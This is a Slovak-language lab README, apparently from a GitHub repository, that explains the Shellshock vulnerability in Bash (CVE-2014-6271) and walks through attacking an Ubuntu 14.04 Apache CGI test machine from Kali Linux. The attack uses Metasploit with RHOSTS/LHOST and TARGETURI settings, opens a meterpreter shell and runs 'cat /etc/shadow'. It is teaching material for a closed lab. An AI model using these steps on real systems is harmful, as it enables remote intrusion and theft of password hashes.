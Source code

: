 # Otestovanie zraniteľnosti Shellshock na Ubuntu 14.04

CVE-2014-6271, známe aj ako „Shellshock“, bolo objavené v septembri 2014 bezpečnostným výskumníkom Stéphane Chazelasom. 
Využíva chybu v príkazovom interpretery Bash od verzie 1.14 po 4.3. Zraniteľné boli všetky zariadenia, 
ktoré ho používali. Vzdialenému útoku boli však vystavení iba používatelia, ktorí boli pripojení na internet. Okrem 
toho je potrebný určitý softvér, ktorý poskytuje cestu, cez ktorú sa útočník môže dostať k príkazovému interpreteru 
Bash, napríklad pri webovom serveri Apache je to CGI, ktorý slúži na interakciu s jeho programami. Experti 
vypočítali, že „Shellshock“ sa týkal vyše 500 miliónov zariadení.

Zraniteľnosť vzniká kvôli chybe v spracovaní premenných prostredia v príkazovom interpretery Bash, najmä definície 
funkcií. Toto sa dá zneužiť na vykonanie ľubovoľného kódu, získanie neoprávneného prístupu k systému, poprípade 
vykonanie rôznych útokov, ako napríklad DoS, Code Injection alebo Remote Command Execution.

## Konfigurácia Ubuntu

Pre otestovanie sme si stiahli verziu webového servera Apache verzie 2.4.7 a overili verziu príkazového interpreteru 
Bash, ktorá bola verzie 4.3.8. Následne sme si vytvorili a vložili na server CGI skript, konkrétne `hw.sh`. V súbore 
VAGRANT sme si nastavili adresu IP, na ktorú budeme útočiť: `192.168.50.20`.

## Konfigurácia Kali Linux 

Pre zaútočenie sme si vložili súbor HACK na plochu distribúcie. Prihlásime sa do distribúcie Kali Linux pomocou mena a hesla `vagrant`, otvoríme si terminál a útok spustíme pomocou príkazu: 

```shell
./Desktop/HACK.sh
```

HACK.sh nám otvorí nástroj msfconsole pomocou súboru `set-msfconsole.rc` a nastaví tam IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.20` a cestu `set TARGETURI /cgi-bin/hw.sh`, čo nám nastaví cestu k skriptu CGI. 
Ostáva nám nastaviť IP útočníka `set LHOSt 192.168.50.21` a spustiť útok.

Vstúpime do interpretačného riadku meterpreter, pomocou príkazu `sell` spustíme konzolu na zraniteľnej distribúcii a skúsime príkazy `whoami` a `cat /etc/shadow`.
